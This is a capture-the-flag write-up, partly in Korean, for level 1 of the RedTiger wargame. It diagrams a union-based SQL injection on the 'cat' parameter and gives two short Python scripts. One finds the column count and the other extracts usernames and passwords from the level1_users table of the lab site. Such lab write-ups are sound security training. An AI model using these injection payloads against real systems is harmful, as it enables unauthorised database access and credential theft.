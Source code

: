 ================================================================================================================
[redtiger] level1
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="cat=1 union select %s from level1_users",arrowhead="normal"];
        step3 -> step2[label="Column Length",arrowhead="normal"];
        step4 -> step5[label="cat=1 union select 1,2,username,password from level1_users",arrowhead="normal"];
        step7 -> step6[label="Data Extract",arrowhead="normal"];
    }

|

server -> DB 예측
================================================================================================================

- 테이블명: level1_users
- GET 파라미터: cat

.. code-block:: sql

    SELECT * FROM tb_name where
    cat=$_GET["cat"]

|

union select
================================================================================================================

- 컬럼 개수 확인

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level1.php"

    n = 0
    ret = ''
    for l in range(20):
        params = {
            "cat": "1 union select %s from level1_users" % str(n)
        }
        print params.values()[0]
        n = str(n) + "," + str(l+1)
        r = requests.get(url, params=params, verify=False)
        print r.content

|

union select
================================================================================================================

- 데이터 추출

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level1.php"

    params = {
        "cat": "1 union select 1,2,username,password from level1_users"
    }
    r = requests.get(url, params=params, verify=False)
    print r.content

|